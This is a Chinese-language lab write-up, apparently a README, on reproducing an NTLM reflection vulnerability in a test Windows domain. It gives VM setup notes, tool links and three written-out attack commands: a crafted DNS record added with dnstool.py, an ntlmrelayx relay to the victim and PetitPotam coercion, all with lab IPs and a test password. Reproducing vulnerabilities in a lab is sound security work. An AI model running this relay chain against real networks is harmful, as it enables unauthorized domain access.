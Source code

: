# 前言
真应了那句话，环境搭建2小时，漏洞复现5分钟，前前后后折腾了好久，最终方案：我的宿主机是Mac 15.3.2，PD下虚拟化的Win2019、Win10，VMware Fusion下虚拟化的Kali，均使用桥接。

期间试过用PD下的Win10作为攻击机，但是涉及445端口占用问题，也试过PD下安装kali，可是怎么也装不上，干脆不折腾了

# 系统下载
https://msdn.itellyou.cn/  
https://next.itellyou.cn/  

# 域环境搭建
【搭建一个简单的Windows域环境】https://blog.csdn.net/qq_28205153/article/details/113827476

参见上述文章即可

# 漏洞复现
【谢公子的复现分析】https://mp.weixin.qq.com/s/x1ZtxBAWx-eNS4WCaUagfg  
【狼组的复现分析】https://mp.weixin.qq.com/s/Ew9OULVjM-zLAxpMsaUyvQ  
【漏洞作者】https://www.synacktiv.com/publications/ntlm-reflection-is-dead-long-live-ntlm-reflection-an-in-depth-analysis-of-cve-2025  

域：test.local  
域控（Win2019）：172.20.10.4  
受害机（Win10）：172.20.10.5  
攻击机（Kali）：172.20.10.2  

https://github.com/dirkjanm/krbrelayx  
https://github.com/fortra/impacket/releases/download/impacket_0_12_0/impacket-0.12.0.tar.gz  
（注意：impacket不要用master分支的版本，截止到2025.06.29，master分支的版本是0.13.0.dev0，里面的代码有更新，会导致脚本执行失败）  
https://github.com/topotam/PetitPotam  
下载上述三个工具  

```
python3 dnstool.py -u 'test.local\john' -p 'nongxinL878' -r ca1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA -d 172.20.10.2 --action add 172.20.10.4
```
![image](./image/01.png)


```
python3 ntlmrelayx.py -t 172.20.10.5 -smb2support -ts
```
![image](./image/02.png)


```
python3 PetitPotam.py -d test.local -u john -p nongxinL878 ca1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA 172.20.10.5
```
![image](./image/03.png)
如图所示，表示漏洞可能被修补了

下图是漏洞没被修补的输出  
![image](./image/04.png)

# 漏洞分析
【谢公子的复现分析】https://mp.weixin.qq.com/s/x1ZtxBAWx-eNS4WCaUagfg

【狼组的复现分析】https://mp.weixin.qq.com/s/Ew9OULVjM-zLAxpMsaUyvQ

【漏洞作者】https://www.synacktiv.com/publications/ntlm-reflection-is-dead-long-live-ntlm-reflection-an-in-depth-analysis-of-cve-2025

# 漏洞挖掘